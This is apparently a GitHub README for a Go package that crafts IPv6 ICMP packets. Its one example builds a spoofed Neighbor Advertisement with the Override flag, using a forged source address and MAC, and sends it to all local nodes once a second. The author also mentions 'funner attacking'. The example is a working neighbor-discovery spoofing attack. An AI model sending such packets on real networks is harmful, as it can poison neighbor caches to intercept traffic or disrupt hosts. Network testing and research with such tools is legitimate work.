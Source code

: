 ## HackICMP6

Simple Go package to mess with IPv6 ICMP packets

[godoc](https://godoc.org/github.com/BobBurns/hackicmp6/hi6)

This package uses the awesome songgao ether and ethernet packages.
Just type `go get` to get them.

#### Example Neighbor Advertisement with Override flag set

`import github.com/BobBurns/hackicmp6/hi6`

```go

	t := hi6.ICMP6{
		Iface:      "en0",
		DstIP:      "ff02::1",
		SrcIP:      "fe80::dead:beef",
		SrcMAC:     "10:0b:a9:ba:aa:ad",
		DstMAC:     "33:33:00:00:00:01",
		Type:       hi6.ICMPTypeNeighborAdvertisement,
		Code:       0,
		NA_Flags:   hi6.NA_FLAG_OVERRIDE,
		TargetAddr: "fe80::3",
	}

	err := t.BuildICMPPacket()
	if err != nil {
		fmt.Println("errors found...")
		fmt.Println(err)
		fmt.Println("exiting.")
		os.Exit(-1)
	}
	for {
		fmt.Printf(".")
		err = t.Send()
		if err != nil {
			fmt.Println(err)
			os.Exit(-1)
		}
		time.Sleep(time.Duration(1 * time.Second))
	}
```

For more examples see examples/

I would like to add Extention Header support as well as pcap listener for funner attacking


